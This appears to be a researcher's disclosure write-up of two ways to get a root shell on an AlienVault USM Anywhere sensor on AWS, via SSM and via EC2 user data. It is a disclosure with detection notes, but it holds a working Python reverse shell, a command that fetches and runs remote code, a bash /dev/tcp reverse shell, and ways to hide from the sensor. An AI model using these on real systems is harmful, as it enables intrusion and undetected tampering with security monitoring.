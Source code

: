 # Abstract

This page discloses 2 ways to get a root shell on an [USM Anywhere sensor](https://cybersecurity.att.com/products/usm-anywhere) deployed on AWS. The first way is done through [AWS SSM](https://docs.aws.amazon.com/systems-manager/latest/userguide/ssm-agent.html), and the second one through [AWS EC2 user data](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/user-data.html). The impact is to be able to modify the USM Anywhere sensor without limitation and undetected, making further exploitation of an AWS environment silently. Findings were tested using a [free trial](https://cybersecurity.att.com/products/usm-anywhere/free-trial), with the latest available version of USM Anywhere sensor as of 2021-05-04: version 6.0.205.

Those findings were not categorized as vulnerabilities by AlienVault. AlienVault reminded that it is the customer responsibility to secure AlienVault sensor deployed in AWS by following [AWS best practices](https://docs.aws.amazon.com/systems-manager/latest/userguide/security-best-practices.html).

Those findings could be applicable while deploying USM Anywhere sensor in other cloud services.

# Discovery process

## SSM

When having to troubleshoot issues on AlienVault USM, a `sysadmin` user is provided on sensors. The customer can use SSH to connect to this `sysadmin` user and will land on a [limited shell](https://cybersecurity.att.com/documentation/usm-appliance/system-overview/unauthorized-modification.htm). That interface can be used to browse some logs with a pager that cannot execute commands, and traps signals such as `CTRL+Z` or `CTRL+C`. It has some `ping` and `dig` tools with validated input. This restricted interface provides access to `htop`, which reveals that the process `amazon-ssm-agent` is running.

![htop](./img/2021-05-04-root-alienvault-usm-sensor/htop.png)

From there it is easy to guess that AWS SSM can be used to run arbitrary commands. Since the sensor is probably deployed in a private VPC behind a NATgw, and not accessible from the outside, the best course of action is to leverage AWS SSM to start a reverse shell.

## EC2 user data

Sometimes the sensor can run out of storage. Most of the storage is mounted on `/data`, and when growing the EBS, then restarting the instance, the partition is grown: [cloud-init](https://cloudinit.readthedocs.io/en/latest/) is running on the instance. Cloud-init can also be used to [run a reverse shell](https://www.tenchisecurity.com/blog/ec2-user-data-for-fun-reverse-shell-and-privilege-escalation).

# Proof of Concept

## SSM

### Requirements

For this attack to succeed, the attacker needs to have AWS credentials to a user or a role that allows to:

- add policies to an IAM role
- run AWS SSM send-command

### Process
The process is to:

1. add the necessary permissions on the USM Anywhere instance role

![ssm-permissions](./img/2021-05-04-root-alienvault-usm-sensor/ssm-permissions.png)

2. wait few minutes for the SSM agent to come online. This step is optional and requires extra permissions to describe instances information.

```
$ aws ssm describe-instance-information --output text --query "InstanceInformationList[*]"
3.0.529.0	USMA-Sensor	172.31.36.0	i-[instanceID]	False	1620139052.209	Online	Ubuntu	Linux	16.04	EC2Instance
```

3. use SSM send-command to send reverse shell. For the reverse shell to work I used a python one, and distributed it from a python web server.

```
$ cat lol.py
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("1.2.3.4",4445));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);

$ python3 -m http.server 4444
Serving HTTP on 0.0.0.0 port 4444 ...
4.5.6.7 - - [04/May/2021 22:39:48] "GET /lol.py HTTP/1.1" 200 -

$ aws ssm send-command --instance-ids "i-[instanceID]" --document-name "AWS-RunShellScript" --parameters commands="wget -O /tmp/lol.py http://1.2.3.4:4444/lol.py ; sleep 10 ; python /tmp/lol.py &" --output text
COMMAND	e78df3b7-dbb6-4808-b418-8a3f15a7c933		0	0	AWS-RunShellScript	$DEFAULT	0	1620146387.434	50	0			1620139187.434		Pending	Pending	1	3600
CLOUDWATCHOUTPUTCONFIG		False
INSTANCEIDS i-[instanceID]
NOTIFICATIONCONFIG
COMMANDS	wget -O /tmp/lol.py http://1.2.3.4:4444/lol.py ; sleep 10 ; python /tmp/lol.py &
```

4. get the reverse shell

```
$ nc -lvnp 4445
Listening on [0.0.0.0] (family 0, port 4445)
Connection from 4.5.6.7 36150 received!
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# ps fauxww | grep alienvault
avunima+  1619 75.9 75.8 15661756 12241920 ?   Sl   14:37   3:35 /usr/lib/jvm/jre8-hotspot/bin/java -Xms11026m -Xmx11026m -XX:+UseG1GC -XX:+AlwaysPreTouch -XX:MaxGCPauseMillis=2000 -XX:+ParallelRefProcEnabled -XX:+ExitOnOutOfMemoryError -XX:+UnlockExperimentalVMOptions -XX:G1NewSizePercent=40 -Djava.security.egd=file:/dev/./urandom -Dav.connectFile=/etc/alienvault/unimatrix/connect.json -Djava.io.tmpdir=/data/alienvault/unimatrix/tmp -Dvertx.cacheDirBase=/data/alienvault/unimatrix/tmp -Djava.net.preferIPv4Stack=true -cp /usr/share/alienvault/current/unimatrix/lib/core/*:/usr/share/alienvault/current/unimatrix/lib/* -DlogFile=/data/alienvault/log/unimatrix-console.log com.alienvault.atlas.unimatrix.UnimatrixSpringApp
root      3489  0.0  0.0  11280  1072 ?        S    14:42   0:00      \_ grep alienvault
```

## EC2 user data

### Requirements

For this attack to succeed, the attacker needs to have AWS credentials to a user or a role that allows to:

- modify user data
- stop and start an EC2 instance

### Process

The process to leverage AWS EC2 user data to get a root shell is a bit more noisy than the SSM way: we need to stop and start the sensor instance.

1. stop USM instance
2. change user data from the original json string to a reverse shell

```
Content-Type: multipart/mixed; boundary="//"
MIME-Version: 1.0

--//
Content-Type: text/cloud-config; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="cloud-config.txt"

#cloud-config
cloud_final_modules:
- [scripts-user, always]

--//
Content-Type: text/x-shellscript; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="userdata.txt"

#!/bin/bash
/bin/bash -c "bash -i >& /dev/tcp/1.2.3.4/4444 0>&1"
--//
```

3. start your netcat listener on the attacker controlled server, here `1.2.3.4`

```
$ nc -lvnp 4444
```

4. start instance and get your root shell

```
$ nc -lvnp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from 4.5.6.7 60152 received!
bash: cannot set terminal process group (1525): Inappropriate ioctl for device
bash: no job control in this shell
# id
uid=0(root) gid=0(root) groups=0(root)
```

# Impact

This root shell can be used by an attacker to cover its traces from USM Anywhere for further exploitation. For instance:

- change suricata conf to whitelist attacker IP, and restart suricata
- change .jar files to modify sensor plugins behavior, and restart unimatrix
- modify traffic gathered through syslog using iptables + socat + script to modify traffic on the fly
- etc

This root shell can also be used to reverse engineer Alienvault sensor functionalities, or download Alienvault rules updates from its repo using SSL mutual authentication to gather further knowledge about the sensor:

![rules](./img/2021-05-04-root-alienvault-usm-sensor/rules.png)

# Detection

Since both ways rely on AWS APIs, specific rules can be written to detect it from CloudTrail logs, watching for SSM commands and EC2 user-data changes.

# Responsible disclosure

- [2021-01-05] emailed security mailing list and created support case, asking for point of contact
- [2021-01-05] support case acknowledged and escalated, scheduling call
- [2021-01-12] call scheduled, presented finding details, detection and mitigation ideas
- [2021-02-01] case escalated to internal AlienVault ticket
- [2021-03-01] reminder to AlienVault about the findings
- [2021-03-25] reminder to AlienVault about the findings
- [2021-04-15] call with AlienVault, exposing findings details
- [2021-04-20] AlienVault answered classifiying this finding as not being a vulnerability

Published on the 2021-05-04 by Pierre Gaulon.
